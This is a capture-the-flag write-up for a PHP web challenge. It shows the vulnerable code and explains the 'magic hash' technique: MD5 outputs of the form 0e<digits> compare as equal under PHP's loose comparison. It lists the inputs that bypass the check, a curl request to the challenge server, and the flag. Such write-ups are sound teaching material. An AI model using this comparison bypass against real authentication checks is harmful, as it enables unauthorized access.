 # Web CTF Final Unicorns

```php
if (!array_key_exists('val1', $_POST) || !array_key_exists('val2', $_POST)) {
    echo "Please send the inputs correctly\n";
    exit(0);
}

$first  = $_POST['val1'];
$second = $_POST['val2'];

if (!(is_numeric($first) || is_numeric($second))) {
    echo "Invalid input\n";
    exit(0);
}

$hash1 = hash('md5', $first,  false);
$hash2 = hash('md5', $second, false);

// First check: loose inequality
if ($hash1 != $hash2) {
    // Replace letters a–d → digits 0–3
    $hash1 = strtr($hash1, "abcd", "0123");
    $hash2 = strtr($hash2, "abcd", "0123");

    // Second check: loose equality
    if ($hash1 == $hash2) {
        echo $flag;  // FLAG!
    } else {
        echo "Hard luck :(\nKeep trying\n";
    }
} else {
    echo "Hard luck :(\nKeep trying\n";
}
```

- At least one of val1 or val2 must be numeric.
- Both inputs are MD5‑hashed (hex, lowercase).

Loose Comparison

- First: `if ($hash1 != $hash2)` uses PHP’s loose **!=**.
- Second: after mapping **a→0, b→1, c→2, d→3**, tests `if ($hash1 == $hash2)` with loose **==**.

The “Magic Hash” Trick
In PHP, when you compare two strings using `==/!=`, if they look like valid decimal floats (including scientific notation), PHP casts them to floats before comparing. Specifically, any string of the form: **0e<digits>**

is interpreted as `0 × 10^<digits>` → the numeric value 0.

Example MD5 collisions of the form 0e…

```
md5("240610708") == "0e462097431906509019562988736854"
md5("QNKCDZO")   == "0e830400451993494058024219903391"
```

Both are distinct hex‐strings, yet each begins with “0e” followed by only digits.

## Solution

### Input #1: 240610708

```text
md5("240610708")  
  = 0e462097431906509019562988736854
```

Already a “0e…” string → numeric‐string.


### Input #2: 871

```text
md5("871")  
  = aeb3135b436aa55373822c010763dd54
```
  
Not numeric → first comparison sees them as different strings ("0e…" != "ae…" → TRUE).

After `strtr("abcd"→"0123")`:

```text
aeb3135b436aa55373822c010763dd54
  → 0e131351436005537382220107633354
```

which is again of the form “0e…” (all digits after “e”), so the loose second comparison casts both to 0 → equal.

```bash
curl -s -X POST http://ctf-13.security.cs.pub.ro:8000/ \
     -d 'val1=240610708&val2=871'
```
     
Observe the output: **SSS{un1c0rns_3at_m4g1c_h4sh3s}**
